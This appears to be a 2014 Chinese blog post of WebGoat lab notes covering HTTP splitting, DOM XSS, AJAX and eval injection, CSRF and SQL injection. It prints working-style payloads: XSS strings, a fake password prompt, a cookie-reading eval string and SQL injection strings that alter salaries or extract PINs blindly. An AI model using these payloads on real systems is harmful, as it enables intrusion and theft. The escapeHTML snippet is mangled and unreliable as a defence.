 ```yaml
---
layout: post
title:  "WebGoat笔记"
date:   2014-03-03 16:23:37 +0800
categories: blog
tags:   [web]
---
```

1. http splitting
    对于302请求执行splitting，更改Last-Modified属性到未来时间来更改cookie
    
        foobar
        Content-Length: 0

        HTTP/1.1 200 OK
        Content-Type: text/html
        Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
        Content-Length: 47

        Hacked J

2. 基于dom的XSS
    * 使用img
    
            <img src=x onerror=;;alert('xss') />
    
    * 使用iframe
    
            <IFRAME src="javascript:alert('xss');"></IFRAME>
     
    * 其他标签
            
            please enter your password:<BR><input type="password" name="pass"/>
            <button onClick="javascript:alert('i have your password: '+pass.value);"></button>

    * scape来防止基于dom的XSS
    
            function escapeHTML (str) { 
            var div = document_createElement_x_x_x_x_x('div');
            var text = document_createTextNode(str);
                            div.a(text); 
                            return div.innerHTML; 
                     }

3. AJAX响应中的DOM注入
     一般在处理AJAX响应的时候会使用eval（），这样在响应中注入需要的JavaScript代码(如：`document.form.SUBMIT.disabled = false;`)

4. AJAX响应中的XML/json注入
     修改AJAX响应中的xml/json数据

5. 使用eval的危险
    如果AJAX响应中有执行eval_r()代码会很危险，通过注入来执行自己的代码，例如：
     `123');alert(document.cookie);('`

6. java检验输入的字符串防止存储的xss

        String regex = "[\\s\\w-,]*";
        String stringToValidate = firstName+lastName+ssn+title+phone+address1+address2+
        startDate+ccn+disciplinaryActionDate+
        disciplinaryActionNotes+personalDescription;
        Pattern pattern = Pattern.compile(regex);
        validate(stringToValidate, pattern);
     
7. java对输出的字符串encode防止存储的xss
   使用这里的encode方法

8. 需要确认的CSRF
    通过iframe
    ![iframe](/images/webgoat1.png)
    
    通过img
    ![iframe](/images/webgoat2.png)

9. 带有标识码的CSRF。在访问一个页面后生成的标识码，要作为参数在伪装的请求中提交
    提交一个请求，获取响应中的CSRFToken参数的值，在最终的请求中提交
    ![iframe](/images/webgoat3.png)

10. 注入
    * 命令注入  （使用;分隔多个命令）
    * xpath注入  http://www.w3school.com.cn/xpath/
    * SQL注入。使用or和and；--注释；
      例子：       
                
                smith' OR '1' = '1
                101 OR 1=1
                whatever'; UPDATE salaries SET salary=999999 WHERE userid='jsmith
                数字盲打：101 AND ((SELECT pin FROM pins WHERE cc_number='1111222233334444') > 10000 );
                猜字：101 AND (SELECT  ASCII(SUBSTR(name,1,1))  FROM pins WHERE cc_number=1111222233334444)=74  （转成charcode是为了使用一些工具（jhijack）进行一定范围内（'A' = 65 'Z' = 90 'a' = 97 'z' = 122）的批量测试）

11. [fuzzdb](https://code.google.com/p/fuzzdb/){:target="_blank"}

12. 会话完成攻击（[Session fixation](http://en.wikipedia.org/wiki/Session_fixation){:target="_blank"}）



这个哥们写得挺有意思。。。。                      
[http://blog.sina.com.cn/s/articlelist_1829596415_0_2.html](http://blog.sina.com.cn/s/articlelist_1829596415_0_2.html){:target="_blank"}）